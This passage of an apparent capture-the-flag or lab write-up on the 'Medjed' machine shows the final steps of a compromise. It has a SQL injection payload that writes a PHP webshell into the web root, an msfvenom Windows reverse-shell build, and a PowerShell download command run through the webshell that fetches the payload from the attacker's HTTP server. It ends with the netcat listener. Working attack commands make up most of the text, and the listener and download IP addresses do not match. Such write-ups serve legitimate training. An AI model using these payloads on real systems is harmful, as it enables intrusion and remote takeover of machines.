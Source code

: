 ![Medjed](/assets/img/MedjedPG(15).png)

The final SQL Injection payload was:
~~~sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/shell.php' -- -'
~~~
I could then perform commands through my webshell

![Medjed](/assets/img/MedjedPG(16).png)

To get a stable interactive reverse shell on the machine I generated a MSFVenom .exe reverse shell payload, transferred it via a web file transfer, started my netcat listener, then executed it via the webpage
~~~shell
┌──(kali㉿kali)-[~/Desktop/Medjed]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.167 LPORT=8000 -f exe > reverseshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Medjed]
└─$ python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
~~~shell
192.168.182.127:45332/shell.php?cmd=powershell -c (New-Object Net.WebClient).DownloadFile(‘http://192.168.45.153/reverseshell.exe’, ‘reverseshell.exe’)
~~~
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8000
~~~
